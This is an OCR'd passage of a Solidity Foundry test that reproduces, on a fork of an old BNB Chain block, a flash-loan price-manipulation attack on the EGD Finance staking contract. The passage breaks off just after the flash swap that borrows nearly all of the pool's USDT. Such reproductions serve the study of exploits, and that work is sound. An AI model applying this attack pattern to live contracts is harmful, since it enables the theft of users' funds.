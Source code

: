 ```solidity
        address[] memory path,
        address to,
        uint256 deadline
    ) external;
}

address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
address constant egd = 0x202b233735bF743FA31abb8f71e641970161bF98;
uint256 constant blockheight = 20245522;
IPancakePair constant EGD_USDT_LPPool = IPancakePair(
    0xa361433E409Adac1f87CDF133127585F8a93c67d
);
IPancakeRouter constant pancakeRouter = IPancakeRouter(
    payable(0x10ED43C718714eb63d5aA57B78B54704E256024E)
);

contract Egd2USDT {
    function swap2usdt() public {
        IERC20(egd).transferFrom(
            msg.sender,
            address(this),
            IERC20(egd).balanceOf(msg.sender)
        );

        //将egd兑换成usdt
        address[] memory path = new address[](2);
        path[0] = egd;
        path[1] = usdt;
        IERC20(egd).approve(address(pancakeRouter), type(uint256).max);
        pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            IERC20(egd).balanceOf(address(this)),
            1,
            path,
            address(msg.sender),
            block.timestamp
        );
    }
}

contract HackTest2 is Test {
    IEGD_Finance egd_finance;
    Egd2USDT egd2usdt;

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/bsc", blockheight);
        egd_finance = IEGD_Finance(EGD_Finance);
        egd2usdt = new Egd2USDT();
        deal(usdt, address(this), 30000 ether);
    }

    function testHack() public {
        uint256 balanceBefore = IERC20(usdt).balanceOf(address(this));

        stake();

        //模拟2天后
        vm.warp(block.timestamp + (2 * 24 * 60 * 60));

        //贷款（价格操纵）
        uint256 borrowUSDT = (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
            99997600) / 100000000;
        EGD_USDT_LPPool.swap(0, borrowUSDT, address(this), "abcd");
```